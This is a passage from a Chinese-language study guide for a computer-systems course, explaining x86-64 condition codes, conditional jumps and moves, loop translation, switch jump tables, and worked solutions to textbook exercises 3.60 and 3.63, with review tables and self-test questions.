ret | 返回，返回值在 %rax（int 用 %eax） | return …; |
改为 return x <= y; 后，只有 setX 的条件后缀发生变化：setg 变为 setle（条件 (SF^OF) | ZF），其余指令不变。gcc 13 实测：cmpq %rsi,%rdi; setle %al; movzbl %al,%eax; ret。若把参数类型改成 unsigned long，比较 x > y 会改用无符号的条件：实测 gcc 生成 cmpq %rdi, %rsi; setb %al——它交换了比较顺序，把 x > y 改写成 y < x（setb 即 below），二者等价。
1（5）基于课件第 34 页的练习题，逐条分析汇编代码如何得出这些运算结果和条件码。
xorq %rax, %rax：任何数与自己异或得 0，所以 %rax = 0。逻辑运算的条件码规则：ZF = 1（结果为 0），SF = 0（最高位为 0），CF 与 OF 被清零。这是把寄存器清零的惯用写法。
subq $1, %rax：0 − 1 = −1，%rax = 0xFFFF FFFF FFFF FFFF。按无符号看 0 < 1，需要借位，所以 CF = 1；结果最高位为 1，SF = 1；结果非零，ZF = 0；按有符号看 0 − 1 = −1 没有溢出，OF = 0。
cmpq $2, %rax：计算 %rax − 2，但不写回，%rax 仍为全 1。按有符号：−1 − 2 = −3，不溢出，OF = 0，结果为负，SF = 1；按无符号：UMax − 2 不需要借位，CF = 0；结果非零，ZF = 0。
setl %al：条件 SF^OF = 1^0 = 1，所以 %al = 1（有符号 −1 < 2，正确）。只改低字节：%rax = 0xFFFF FFFF FFFF FF01。setX 不修改条件码，SF、CF、OF、ZF 保持 1、0、0、0。
movzbl %al, %eax（课件写作 movzblq，不是合法助记符）：%al = 0x01 零扩展到 %eax，并清零高 32 位，%rax = 1。movzbl 也不修改条件码。
若最后一步改为 setb %al（无符号比较），由于 CF = 0，得到 0——按无符号解释，UMax 不小于 2。这正好说明同一组条件码可以同时回答有符号与无符号两种问题。
1（6）基于课件第 28 页的内容，逐行解读汇编代码的操作，并指出和 C 代码的对应关系；然后分析：如果把 C 代码改为“if (x<y)”，汇编代码会如何变化。
| 汇编 | 操作 | 对应 C |
|---|---|---|
cmpq %rsi, %rdi | 计算 x − y，设置条件码 | if (x > y) 的比较部分 |
jle .L4 | 若有符号 x <= y，跳到 .L4（else 分支）；否则顺序执行 | ntest = x <= y; if (ntest) goto Else; |
movq %rdi, %rax | %rax = x | then 分支：result = x - y; |
subq %rsi, %rax | %rax = x − y | |
ret | 返回 result | then 分支直接返回（相当于 goto Done） |
.L4: | 标号 | Else: |
movq %rsi, %rax | %rax = y | else 分支：result = y - x; |
subq %rdi, %rax | %rax = y − x | |
ret | 返回 result | return result; |
这里有两点需要注意：（1）跳转条件 jle 是 C 条件 x > y 的反面，跳去的是 else 分支；（2）两个分支各自以 ret 结束，编译器把 goto 版本中的 goto Done; … Done: return result; 合并成了两个 ret。
若只把条件改为 if (x < y)（两个分支保持不变），则跳转指令变为条件 x < y 的反面 jge，其余不变。gcc 13 实测：
cmpq %rsi, %rdi
jge .L2 # x >= y 跳到 else
movq %rdi, %rax
subq %rsi, %rax # result = x - y
ret
.L2:
movq %rsi, %rax
subq %rdi, %rax # result = y - x
ret这时函数不再计算绝对值。若想保持绝对值的语义，应同时交换两个分支：if (x < y) result = y - x; else result = x - y;，实测仍是 cmpq; jge，只是两个分支中 subq 的操作数互换。
1（7）基于课件第 32 页的内容，逐行解读汇编代码的操作，并指出和 C 代码的对应关系；再考虑：如果把 cmovle 改成 cmovg，其它代码需要如何对应修改。
| 汇编 | 操作 | 对应 goto 版本（课件 p.31） |
|---|---|---|
movq %rdi, %rax | %rax = x | |
subq %rsi, %rax | %rax = x − y | result = Then_Expr;（x − y） |
movq %rsi, %rdx | %rdx = y | |
subq %rdi, %rdx | %rdx = y − x | eval = Else_Expr;（y − x） |
cmpq %rsi, %rdi | 计算 x − y，设置条件码 | nt = !Test;（Test 为 x > y） |
cmovle %rdx, %rax | 若 x <= y，则 %rax = %rdx | if (nt) result = eval; |
ret | 返回 %rax | return result; |
注意 cmp 必须放在两个 subq 之后：subq 也会设置条件码，若 cmp 在前，它的结果会被 subq 覆盖。
若把 cmovle 改成 cmovg，含义变为“若 x > y 则选择 Src”，因此要让 %rax 先存放 x ≤ y 时的结果 y − x，%rdx 存放 x > y 时的结果 x − y，即交换两个临时值的计算：
absdiff:
movq %rdi, %rdx
subq %rsi, %rdx # %rdx = x - y （x > y 时的结果）
movq %rsi, %rax
subq %rdi, %rax # result = y - x （默认值）
cmpq %rsi, %rdi # x:y
cmovg %rdx, %rax # if >, result = x - y
ret另一种等价改法是不改寄存器，而把比较的操作数交换：cmpq %rdi, %rsi（计算 y − x），此时 cmovg 表示 y > x，即 x < y，但这样 x y 时的处理会不同（x y 时两种结果都是 0，所以对 absdiff 而言仍然正确）。
1（8）拓展研讨：使用条件传送指令的汇编代码，把两种结果都计算出来了，做的工作更多，但是相比之前的条件转移代码实现形式，为什么性能反而会更高？
关键在于现代处理器的流水线和分支预测（教材 3.6.6 节、第 4 章）。
首先，流水线需要提前知道下一条指令。处理器把每条指令分成取指、译码、执行、访存、写回等阶段，多条指令重叠执行，现代处理器的流水线有十几级，并且每个周期发射多条指令。遇到条件跳转时，比较结果要等到执行阶段才知道，但取指单元在此之前就必须决定往哪边取指令。
其次，分支预测要付出预测错误的代价。处理器会预测跳转方向并“投机”执行。预测正确时几乎没有损失；预测错误时，已进入流水线的所有指令作废，从正确的位置重新取指。教材测得的错误预测代价约为 19 个时钟周期；absdiff 本身只需约 8 个周期，若数据随机，有一半概率猜错，平均每次要多付出近 10 个周期。
条件传送则没有控制转移。cmov 版本的指令序列是固定的直线代码，取指永远不需要猜测，流水线始终是满的。多算一个减法只需一个周期左右，而且两个减法可以在不同的执行单元上并行完成，几乎不增加时间。
不过条件传送也有适用前提。只有当两个分支都很简单、计算代价低于一次预测错误的代价时，条件传送才更好。若分支方向有规律、预测准确率很高（例如循环的退出条件），条件跳转几乎没有代价，反而比 cmov 更好；若分支计算量大，计算两边也会得不偿失（课件 p.33）。所以 gcc 是根据代价模型来选择的。
1（9）基于课件第 33 页的内容，解释不适用条件传送指令的三种情况。
条件传送的翻译方式是“两个分支都计算，最后选一个”。这与 C 语言 ?: 的语义（只求值被选中的一边）并不完全相同，只有当计算两边不会造成任何可观察的差别时，编译器才能使用它：
| 情况 | 例子 | 为什么不行 | 课件评价 |
|---|---|---|---|
| 代价高的计算 | val = Test(x) ? Hard1(x) : Hard2(x); | Hard1 和 Hard2 都要执行，总时间是两者之和；只有两边都很简单时才划算 | Bad Performance |
| 有风险的计算 | val = p ? *p : 0; | 即使 p 为空指针也会执行 *p 的读内存，导致段错误。同类例子：d != 0 ? 100/d : 0（可能除以 0 触发异常）、i < n ? a[i] : 0（越界访问） | Unsafe |
| 有副作用的计算 | val = x > 0 ? x*=7 : x+=3; | 两个表达式都会修改 x，而 C 语义只执行其中一个；最终 x 的值会出错。函数调用（如 printf）、修改全局变量等也是副作用 | Illegal |
这里补充一点：x86 的 cmov 指令即使在条件不成立时，也会读取其内存源操作数，所以不能指望 cmovne (%rdi), %rax 来保护空指针。编译器可以先选择“p 或一个安全的零对象的地址”，再做一次合法的读取，但这已经是另一种变换了。
研讨题 2：循环结构和开关语句#
2（1）基于课件第 37、39 页的代码，逐行解读第 39 页汇编代码的操作，并指出和 C 代码的对应关系。解读时要说明，汇编代码中为什么会交替操作同一个寄存器的 64 位和 32 位形式，如 rax 和 eax、rdx 和 edx。
| 汇编 | 操作 | 对应 C（goto 版本） |
|---|---|---|
movl $0, %eax | %eax = 0，同时高 32 位清零，即 %rax = 0 | long result = 0; |
.L2: | 循环入口标号 | loop: |
movq %rdi, %rdx | %rdx = x（复制，避免破坏 x） | |
andl $1, %edx | %edx = %edx & 1，高 32 位清零，即 %rdx = x & 1 | t = x & 0x1; |
addq %rdx, %rax | result += t（64 位加法） | result += x & 0x1; |
shrq %rdi | x 逻辑右移 1 位（unsigned 用逻辑移位），并根据结果设置 ZF | x >>= 1; |
jne .L2 | 若 ZF = 0（x ≠ 0）跳回 .L2 | if (x) goto loop; |
rep; ret | 返回 result；rep 前缀无实际作用（见 5.7 节） | return result; |
★ 为什么交替使用 64 位和 32 位形式
32 位形式在语义上等价：第 4 讲讲过，写 32 位寄存器会把高 32 位清零。movl $0, %eax 把整个 %rax 置 0；andl $1, %edx 的结果只可能是 0 或 1，高 32 位本来就应为 0。所以 32 位形式得到的 64 位结果与 movq $0,%rax、andq $1,%rdx 完全相同。
而且编码更短：64 位操作需要 REX.W 前缀字节（0x48）。实测编码：movl $0,%eax 为 b8 00 00 00 00（5 字节），movq $0,%rax 为 48 c7 c0 00 00 00 00（7 字节）；andl $1,%edx 为 83 e2 01（3 字节），andq $1,%rdx 为 48 83 e2 01（4 字节）。代码越短，指令缓存能容纳的指令越多。
当然，也有必须用 64 位的地方：x 是 unsigned long，复制（movq）和右移（shrq）必须处理完整的 64 位；result 是 long，按 C 语义做 64 位加法（addq）；编译器并没有利用“result 不超过 64”这一事实改用 32 位指令。
可以概括成一句话：编译器在不改变结果的前提下，总是选择最短的编码；只有当高 32 位确实有意义时才使用 64 位形式。gcc 13 -O2 甚至用 xorl %eax,%eax（2 字节）来清零。
2（2）扩展研讨：课件第 37 页提到的 x86 中实现 popcount 的指令是什么，请给出汇编代码示例。编译该页的 C 代码时，是否会使用这个指令？给出你的编译命令行参数和生成的汇编代码。
这条指令是 popcnt（population count），由 Intel Nehalem（2008）和 AMD Barcelona 引入，计算源操作数中 1 的个数，写入目的寄存器：
popcntq %rdi, %rax # %rax = %rdi 中 1 的个数（64 位）
popcntl %edi, %eax # 32 位版本
# 例：%rdi = 0xF0F0（二进制中 8 个 1）-> %rax = 8popcnt 不属于最基本的 x86-64 指令集，gcc 默认不使用它，需要用 -mpopcnt 或 -march=… 告诉编译器目标处理器支持它。实测结果如下（gcc 13.3 与 clang 18）：
| C 代码 | 编译命令 | 是否使用 popcnt | 生成的关键代码 |
|---|---|---|---|
课件 p.37 的 pcount_do（逐位移位累加） | gcc -O2 -mpopcnt -S | 否 | 仍是 andl $1; addq; shrq; jne 循环 |
| 同上 | gcc -O3 -march=x86-64-v2 -S | 否 | 同上 |
| 同上 | clang -O2 -mpopcnt -S | 否 | 循环（展开形式略有不同） |
Kernighan 写法 while (x) { x &= x-1; r++; } | gcc -O2 -mpopcnt -S | 是 | popcntq %rdi,%rax（外加对 x = 0 的处理） |
| 同上 | clang -O2 -mpopcnt -S | 是 | popcntq %rdi, %rax; retq |
return __builtin_popcountl(x); | gcc -O2 -mpopcnt -S | 是 | xorl %eax,%eax; popcntq %rdi,%rax; ret |
| 同上 | gcc -O2 -S（不加 -mpopcnt） | 否 | call __popcountdi2（调用库函数） |
由此可以得出结论：课件 p.37 的 C 代码在 gcc 13 和 clang 18 下都不会被识别为 popcnt，因为编译器的“惯用法识别”只认得特定的写法（如 x &= x - 1）。要可靠地使用这条指令，应调用 __builtin_popcountl（或 C23 的 stdc_count_ones、C++20 的 std::popcount）并加上 -mpopcnt。gcc -O2 -mpopcnt 对 __builtin_popcountl 生成的 xorl %eax,%eax 是为了消除早期 Intel 处理器上 popcnt 对目的寄存器的“假依赖”。
2（3）结合课件第 38、40、42、44 页以及前后相关内容，说明 C 语言的三种循环结构 do-while、while、for，分别如何转换成 Goto 版本。
| 循环 | C 形式 | Goto 版本 | 说明 |
|---|---|---|---|
| do-while | do Body while (Test); | loop: Body if (Test) goto loop; | 先执行后测试，至少执行一次；最直接 |
| while（跳转到中间，-Og） | while (Test) Body | goto test;loop: Bodytest: if (Test) goto loop;done: | 先无条件跳到测试；Test 只出现一次 |
| while（guarded-do，-O1） | while (Test) Body | if (!Test) goto done;loop: Body if (Test) goto loop;done: | 先“守门”，再当作 do-while；初始测试常可被优化掉 |
| for | for (Init; Test; Update) Body | 先改写为Init; while (Test) { Body Update; }再按 while 的任一方式翻译 | guarded-do 形式：Init; if (!Test) goto done; loop: Body Update; if (Test) goto loop; done: |
统一的思想是：所有循环最终都变成“循环体 + 一个向后跳的条件跳转”，while 和 for 只是在入口处多处理一次测试。可以用课件的 pcount 系列验证：pcount_do、pcount_while、pcount_for 的 goto 版本分别在 p.37、41/43、47。
2（4）扩展研讨：课件第 49 页的 C 代码，如果用 if-else 语句，如何实现。如果再按本讲前面学过的方式，转换成汇编代码来分析，一次运行时最多可能会经历多少次跳转指令。
long switch_if(long x, long y, long z)
{
long w = 1;
if (x == 1) {
w = y*z;
} else if (x == 2) {
w = y/z;
w += z; /* 穿透到 case 3 的效果 */
} else if (x == 3) {
w += z;
} else if (x == 5 || x == 6) {
w -= z;
} else {
w = 2;
}
return w;
}按本讲的 goto 翻译规则，每个 if 测试条件的反面，then 块末尾 goto Done：
if (x != 1) goto L2; w = y*z; goto Done;
L2: if (x != 2) goto L3; w = y/z; w += z; goto Done;
L3: if (x != 3) goto L4; w += z; goto Done;
L4: if (x == 5) goto L5;
if (x != 6) goto L6;
L5: w -= z; goto Done;
L6: w = 2;
Done: return w;| x | 执行的跳转指令 | 其中实际跳转的 | 个数 |
|---|---|---|---|
| 1 | x!=1（不跳）、goto Done | 1 | 2 |
| 2 | x!=1、x!=2（不跳）、goto Done | 2 | 3 |
| 3 | x!=1、x!=2、x!=3（不跳）、goto Done | 3 | 4 |
| 5 | x!=1、x!=2、x!=3、x==5、goto Done | 5 | 5 |
| 6 | x!=1、x!=2、x!=3、x==5（不跳）、x!=6（不跳）、goto Done | 4 | 6 |
| 其他（default） | x!=1、x!=2、x!=3、x==5（不跳）、x!=6 | 4 | 5 |
所以按这种直接翻译，一次运行最多执行 6 条跳转指令（x = 6 时，其中 4 条真正发生跳转）。如果把 goto Done 换成直接 ret（编译器的常见做法），最多减少到 5 条。gcc 13 -Og 对 switch_if 的实测输出更紧凑：前三个条件各用 cmpq; je 跳到对应代码块，x = 5、6 合并为 subq $5,%rdi; cmpq $1,%rdi; ja .L6（同 switch 的范围检查技巧），每个块直接 ret，因此最多执行 4 条条件跳转。
再对比跳转表版本：无论 x 是多少，都只执行 ja（不跳）和 jmp *.L4(,%rdi,8) 两条跳转，case 2 再多一条 jmp .L6，最多 3 条。case 越多，跳转表的优势越明显：if-else 链的比较次数随 case 数线性增长，而跳转表的开销是常数。
2（5）基于课件第 50 页，解释图中四块内容之间的对应关系。
课件第 50 页的结构图与 5.8 节的图 5 相同：左上是 switch 的一般形式，左下是它的“扩展 C”翻译，中间是跳转表 jtab，右边是各个代码块。四块内容的对应关系如下表。
| 图中的块 | 内容 | 与其他块的对应关系 |
|---|---|---|
| Switch Form | 源程序中的 switch(x) { case val_0: Block 0 … case val_n-1: Block n–1 } | 每个 case 标号 val_i 对应一段代码 Block i |
| Jump Table（jtab） | 一个数组，第 i 个元素 Targi 是一个代码地址 | 下标 i 对应 case 值 val_i（经过平移后从 0 开始）；元素值指向 Jump Targets 中的某个代码块。缺失的 case 指向 default，多个 case 共用代码时指向同一个目标 |
| Jump Targets | 各代码块 Block 0 … Block n–1 在内存中的实际代码，以标号 Targ0 … Targn-1 开头 | 由 Switch Form 中的各个 Block 编译而来；它们的地址被填入 Jump Table |
| Translation（Extended C） | goto *JTab[x]; | 把三者连起来：以 x 为下标在 Jump Table 中取出地址，然后跳到 Jump Targets 中相应的代码块。goto * 是 gcc 的“标号地址”扩展语法，标准 C 不支持 |
2（6）说明课件第 51 页中的指令“jmp *.L4(,%rdi,8)”，如何对应到课件 50 页上。如：.L4 对应什么、%rdi 对应什么、数字 8 对应什么。再结合课件第 50 页的图示，说明这条指令执行的操作步骤。
| 指令中的部分 | 对应课件 p.50 中的 | 含义 |
|---|---|---|
.L4 | Jump Table 的起始地址 jtab | 寻址模式 D(,Ri,S) 中的偏移量 D：跳转表在 .rodata 段中的首地址 |
%rdi | goto *JTab[x] 中的下标 x | 变址寄存器 Ri，即参数 x |
8 | 每个表项（Targi）的大小 | 比例因子 S：每个表项是 8 字节的地址（.quad） |
* | goto * 的星号 | 间接跳转：目标取自内存，而不是 .L4 本身 |
整个 .L4(,%rdi,8) | JTab[x] | 数组元素的地址 .L4 + 8x 处的内容 |
计算有效地址 EA = .L4 + 8 × %rdi，即跳转表中第 x 项的地址（对应图中 jtab 一栏的第 x 格）。
从内存 EA 处读出 8 字节，得到目标地址 Targx（图中从 jtab 指向 Jump Targets 的箭头）。
把 %rip 设为 Targx，下一条执行的指令就是对应代码块 Block x 的第一条指令。
这里有一个前提：之前的 cmpq $6, %rdi; ja .L8 已保证 0 ≤ x ≤ 6，否则会读到表外的数据并跳到不可预料的地方。
例如，x = 2 时，EA = .L4 + 16，读出的值是 .L5 的地址，于是跳到 case 2 的代码。
2（7）基于课件第 52 页，说明 Jump table 中每行代码的含义，并指出该代码和第 50 页图示的哪些地方对应。
| 行 | 含义 | 对应 p.50 |
|---|---|---|
.section .rodata | 以下内容放入只读数据段（read-only data），不与代码混在一起，也不允许被修改 | Jump Table 所在的内存区域 |
.align 8 | 使下一个地址按 8 字节对齐，便于一次读出 8 字节表项 | — |
.L4: | 跳转表的起始标号 | jtab |
.quad .L8 # x = 0 | 放入 8 字节的值：标号 .L8 的地址。x = 0 没有 case，跳 default | Targ0 |
.quad .L3 # x = 1 | case 1 的代码块地址 | Targ1 |
.quad .L5 # x = 2 | case 2 | Targ2 |
.quad .L9 # x = 3 | case 3 | Targ3 |
.quad .L8 # x = 4 | x = 4 没有 case（缺失的 case），跳 default | Targ4 |
.quad .L7 # x = 5 | case 5 | Targ5 |
.quad .L7 # x = 6 | case 6，与 case 5 共用同一代码块 | Targn-1（n = 7） |
表有 7 项，对应 x 的取值范围 0～6（最小的 case 值 1 到最大的 case 值 6，再加上 0）。若 case 值的范围从一个较大的数开始（如作业 3.63 的 60～65），编译器会先减去最小值使下标从 0 开始。
2（8）基于课件第 52~58 页的 C 代码和汇编代码，说明 x 取值分别为 0~7 时，各发生了什么操作。
| x | 跳转路径 | 执行的代码 | 返回值 w |
|---|---|---|---|
| 0 | ja 不跳 → 查表第 0 项 → .L8 | movl $2, %eax; ret | 2 |
| 1 | 查表 → .L3 | movq %rsi,%rax; imulq %rdx,%rax; ret | y × z |
| 2 | 查表 → .L5 | movq %rsi,%rax; cqto; idivq %rcx（w = y/z），jmp .L6，addq %rcx,%rax; ret | y/z + z |
| 3 | 查表 → .L9 | movl $1,%eax（w = 1），落到 .L6：addq %rcx,%rax; ret | 1 + z |
| 4 | 查表第 4 项 → .L8 | movl $2, %eax; ret | 2 |
| 5 | 查表 → .L7 | movl $1,%eax; subq %rdx,%rax; ret | 1 − z |
| 6 | 查表 → .L7 | 同 x = 5 | 1 − z |
| 7 | cmpq $6,%rdi 后 ja .L8 跳转（7 > 6） | movl $2, %eax; ret | 2 |
这里补充两点：（1）setup 中 movq %rdx, %rcx 把 z 复制到 %rcx，因为 case 2 的 cqto 会覆盖 %rdx（把 y 的符号扩展进去），而之后的 w += z 还要用到 z；case 1、5、6 没有除法，直接使用 %rdx。（2）x 为负数时，ja 按无符号比较，同样跳到 default，返回 2。
2（9）分析说明课件附加材料（第 62~64 页）的代码。
附加页演示了在没有源代码时，如何从可执行文件中找到并解读跳转表。第一步，objdump -d 反汇编得到 switch_eg 的机器码（p.62），其中关键的几条：
| 地址 | 机器码 | 汇编 | 分析 |
|---|---|---|---|
| 4005e0 | 48 89 d1 | mov %rdx,%rcx | setup：z 复制到 %rcx |
| 4005e3 | 48 83 ff 06 | cmp $0x6,%rdi | 范围检查 |
| 4005e7 | 77 2b | ja 400614 | 77 是 ja 的短跳转形式，偏移 0x2b；目标 = 下一条地址 0x4005e9 + 0x2b = 0x400614（default） |
| 4005e9 | ff 24 fd f0 07 40 00 | jmpq *0x4007f0(,%rdi,8) | ff /4 为间接 jmp；SIB 字节 fd 表示比例 8、变址 %rdi、无基址；后 4 字节小端存放 0x004007f0，即跳转表地址 |
第二步，在 gdb 中执行 x /8xg 0x4007f0，以十六进制显示从 0x4007f0 开始的 8 个 8 字节值（p.63）：
| 表项地址 | 值 | x | 目标代码（对照 p.64） | case |
|---|---|---|---|---|
| 0x4007f0 | 0x400614 | 0 | mov $0x2,%eax; retq | default |
| 0x4007f8 | 0x4005f0 | 1 | mov %rsi,%rax; imul %rdx,%rax; retq | case 1 |
| 0x400800 | 0x4005f8 | 2 | mov %rsi,%rax; cqto; idiv %rcx; jmp 400607 | case 2 |
| 0x400808 | 0x400602 | 3 | mov $0x1,%eax，然后落入 400607 add %rcx,%rax | case 3 |
| 0x400810 | 0x400614 | 4 | 同 x = 0 | default |
| 0x400818 | 0x40060b | 5 | mov $0x1,%eax; sub %rdx,%rax; retq | case 5 |
| 0x400820 | 0x40060b | 6 | 同 x = 5 | case 6 |
| 0x400828 | 0x2c646c25203d2078 | — | 不是地址！ | 表外数据 |
第 8 个值显然不是代码地址：按小端顺序拆成字节是 78 20 3d 20 25 6c 64 2c，正是 ASCII 字符串 "x = %ld,"——跳转表后面紧跟着 printf 用的格式字符串，它们都在只读数据段中。这说明跳转表只有 7 项，也印证了范围检查 cmp $0x6 的重要性。第三步（p.64），把这些地址与反汇编代码对照，就能还原出 switch 的结构：哪些 case 共用代码（5、6）、哪些缺失（0、4）、哪里有穿透（case 2 跳到 0x400607，即 case 3 的中间）。这正是 Bomb Lab 中某一关需要的技能，也是作业 3.63 的解题方法。
第三部分 作业题解答：3.60、3.63#
作业题来自教材第 3 章家庭作业（中文版 P217、P219；英文 Global Edition 中题号相同）。
3.60 还原循环#
题目考虑下面的汇编代码（x 在 %rdi，n 在 %esi；教材汇编处的原型写作 long loop(long x, int n)）。它由形如 long loop(long x, long n) { long result = ___; long mask; for (mask = ___; mask ___; mask = ___) { result |= ___; } return result; } 的 C 代码编译得到。A. 哪些寄存器保存了程序值 x、n、result 和 mask？B. result 和 mask 的初始值是什么？C. mask 的测试条件是什么？D. mask 是如何被修改的？E. result 是如何被修改的？F. 填写 C 代码中所有缺失的部分。
loop: # x in %rdi, n in %esi
movl %esi, %ecx # %ecx = n（移位量必须放在 %cl）
movl $1, %edx # mask = 1
movl $0, %eax # result = 0
jmp .L2 # 跳到中间：先测试
.L3: # loop:
movq %rdi, %r8 # t = x
andq %rdx, %r8 # t = x & mask
orq %r8, %rax # result |= t
salq %cl, %rdx # mask <<= n
.L2: # test:
testq %rdx, %rdx # mask == 0 ?
jne .L3 # mask != 0 则继续
rep; ret # return result| 问 | 答 |
|---|---|
| A | x 在 %rdi；n 在 %esi，随后复制到 %ecx（因为变量移位量只能放在 %cl）；result 在 %rax；mask 在 %rdx（%r8 是临时变量 x & mask） |
| B | result = 0，mask = 1 |
| C | mask != 0（testq %rdx,%rdx; jne） |
| D | mask = mask << n（salq %cl, %rdx；硬件只使用 n 的低 6 位） |
| E | result |= x & mask |
long loop(long x, long n)
{
long result = 0;
long mask;
for (mask = 1; mask != 0; mask = mask << n) {
result |= x & mask;
}
return result;
}这个函数的作用是：从第 0 位开始，每隔 n 位取出 x 的一位，组成结果。例如 n = 2 时取出 x 的所有偶数位。注意 for 循环被编译成了“跳转到中间”形式（jmp .L2），这是 -Og 的特征。另外，mask 左移 n 位最终会移出 64 位而变成 0，循环因此结束；若 n 是 64 的倍数，硬件只取低 6 位即移位 0，mask 永远是 1，会死循环（C 中移位量 ≥ 64 本来就是未定义行为）。
3.63 根据反汇编代码还原 switch#
题目long switch_prob(long x, long n) { long result = x; switch(n) { /* Fill in code here */ } return result; }，x 在 %rdi，n 在 %rsi。跳转表位于 0x4006f8，gdb x/6gx 0x4006f8 显示：0x4005a1、0x4005c3、0x4005a1、0x4005aa、0x4005b2、0x4005bf。填写 switch 语句体，使之与机器代码的行为一致。
400590: sub $0x3c,%rsi # n = n - 60
400594: cmp $0x5,%rsi # 比较 n-60 : 5
400598: ja 4005c3 # 无符号 n-60 > 5 -> default
40059a: jmpq *0x4006f8(,%rsi,8) # goto *JTab[n-60]
4005a1: lea 0x0(,%rdi,8),%rax # result = x * 8
4005a9: retq
4005aa: mov %rdi,%rax
4005ad: sar $0x3,%rax # result = x >> 3
4005b1: retq
4005b2: mov %rdi,%rax
4005b5: shl $0x4,%rax
4005b9: sub %rdi,%rax # %rax = 16x - x = 15x
4005bc: mov %rax,%rdi # x = 15x
4005bf: imul %rdi,%rdi # x = x * x
4005c3: lea 0x4b(%rdi),%rax # result = x + 75
4005c7: retq先分析这段机器码：sub $0x3c 说明 case 值从 60（0x3c）开始；cmp $0x5 说明范围为 60～65，共 6 项。对照跳转表：
| 下标 | n | 目标 | 代码 | 结论 |
|---|---|---|---|---|
| 0 | 60 | 0x4005a1 | result = x * 8; return | case 60 |
| 1 | 61 | 0x4005c3 | result = x + 75 | 与 default 相同 → 没有 case 61 |
| 2 | 62 | 0x4005a1 | 同 60 | case 62 与 60 共用 |
| 3 | 63 | 0x4005aa | result = x >> 3; return | case 63 |
| 4 | 64 | 0x4005b2 | x = 15x，然后顺序执行到 4005bf | case 64，穿透到 65 |
| 5 | 65 | 0x4005bf | x = x * x，然后顺序执行到 4005c3 | case 65，穿透到 default |
| — | 其他 | 0x4005c3 | result = x + 75; return | default |
long switch_prob(long x, long n)
{
long result = x;
switch (n) {
case 60:
case 62:
result = x * 8;
break;
case 63:
result = x >> 3;
break;
case 64:
x = x * 15; /* 注意：修改的是 x，而不是 result */
/* fall through */
case 65:
x = x * x;
/* fall through */
default:
result = x + 75;
}
return result;
}最后验证一下：把题目的机器代码重新汇编成函数（包括 6 项跳转表），与参考解答对比 n = 55～69、x = −20～20 的所有组合，结果全部一致。关键在 0x4005bc 的 mov %rax,%rdi：case 64 计算出的 15x 被写回了 x 所在的寄存器 %rdi，所以穿透到 case 65 时，imul %rdi,%rdi 计算的是 (15x)²，最终结果为 225x² + 75。
第四部分 复习速查#
4.1 条件码与条件后缀#
| 指令 | 设置条件码的方式 |
|---|---|
| 算术/逻辑指令 | 按结果隐式设置；逻辑运算把 CF、OF 清零（not 不改条件码）；inc/dec 不改 CF |
cmp b, a | 按 a − b 设置，不保存结果 |
test b, a | 按 a & b 设置（CF = OF = 0），不保存结果 |
| 不改变条件码 | mov、lea、setX、jX、cmovX、movz/movs、push/pop |
表 9 条件后缀速查（用于 setX、jX、cmovX；均指 cmp b,a 后 a 与 b 的关系）
| 有符号 | 条件 | 无符号 | 条件 |
|---|---|---|---|
| g（>） | ~(SF^OF) & ~ZF | a（>） | ~CF & ~ZF |
| ge（>=） | ~(SF^OF) | ae（>=） | ~CF |
| l（<） | SF^OF | b（<） | CF |
| le（<=） | (SF^OF) | ZF | be（<=） | CF | ZF |
| e / ne | ZF / ~ZF | s / ns | SF / ~SF |
4.2 控制结构翻译模板#
| C 结构 | Goto 模板 |
|---|---|
| if-else | if (!Test) goto Else; Then; goto Done; Else: Else_part; Done: |
| ?:（条件传送） | r = Then_Expr; e = Else_Expr; if (!Test) r = e;——两边都要安全、无副作用、代价低 |
| do-while | loop: Body; if (Test) goto loop; |
| while（-Og） | goto test; loop: Body; test: if (Test) goto loop; |
| while（-O1） | if (!Test) goto done; loop: Body; if (Test) goto loop; done: |
| for | Init; while (Test) { Body; Update; }，再按 while 翻译 |
| switch | if ((unsigned)(x - min) > range) goto default; goto *JTab[x - min]; |
4.3 易错点清单#
| # | 易错点 | 正确理解 |
|---|---|---|
| 1 | cmpq %rsi, %rdi 计算 rsi − rdi | 计算 %rdi − %rsi，比较的是 rdi : rsi |
| 2 | 有符号小于看 SF | 看 SF ^ OF；SF 在溢出时是反的 |
| 3 | 无符号比较用 g/l | 无符号用 a/b（above/below），有符号用 g/l |
| 4 | setX 设置整个寄存器 | 只写一个字节，通常需要 movzbl |
| 5 | if (x > y) 编译成 jg 跳到 then | 通常编译成反条件 jle 跳到 else |
| 6 | 条件传送总是更快 | 只在两边计算简单、分支难以预测时更快 |
| 7 | p ? *p : 0 可以用 cmov | 会解引用空指针，编译器不会这样做 |
| 8 | switch 总是用跳转表 | case 稀疏或很少时用判定树 |
| 9 | ja 用于 switch 是因为 x 无符号 | 是借无符号比较同时排除负数和过大的值 |
| 10 | movl $0,%eax 只清零低 32 位 | 写 32 位寄存器同时清零高 32 位，整个 %rax = 0 |
| 11 | 跳转表的目标地址就是 .L4 + 8x | .L4 + 8x 是表项的地址，目标是该处存放的值 |
| 12 | 穿透只能顺序执行到下一个 case | 编译器可能用 jmp 跳到下一个 case 的中间（合并点） |
4.4 中英术语对照#
| English | 中文 | English | 中文 |
|---|---|---|---|
| condition codes | 条件码 | carry / zero / sign / overflow flag | 进位 / 零 / 符号 / 溢出标志 |
| compare / test | 比较 / 测试 | conditional jump | 条件跳转 |
| unconditional jump | 无条件跳转 | indirect jump | 间接跳转 |
| conditional move | 条件传送 | branch prediction | 分支预测 |
| misprediction penalty | 预测错误惩罚 | pipeline | 流水线 |
| jump-to-middle | 跳转到中间 | guarded-do | 守护式 do |
| jump table | 跳转表 | fall through | 穿透 |
| decision tree | 判定树 | side effect | 副作用 |
| above / below | 高于 / 低于（无符号） | greater / less | 大于 / 小于（有符号） |
| population count | 位计数（1 的个数） | read-only data (.rodata) | 只读数据段 |
第五部分 自测题#
以下题目为新编。默认 x86-64、AT&T 语法。
执行 movq $3, %rax; cmpq $5, %rax 后，CF、ZF、SF、OF 各是多少？setb %al 与 setl %al 分别得到什么？
执行 movabsq $0x8000000000000000, %rax; cmpq $1, %rax 后，CF、ZF、SF、OF 各是多少？setl 的结果对吗？
写出 int ge(unsigned long x, unsigned long y) { return x >= y; } 可能的汇编代码。
testq %rax, %rax; jle .L1 在什么情况下跳转？
把 while (i < n) { s += a[i]; i++; } 分别写成“跳转到中间”和 guarded-do 的 goto 版本。
下面哪个可以安全地用条件传送实现？（a）x > 0 ? x : -x（b）p ? p->val : 0（c）y != 0 ? x / y : 0（d）x > 0 ? f(x) : 0
switch 的 case 值为 100、101、103、104，编译器生成的跳转表有几项？范围检查怎么写？
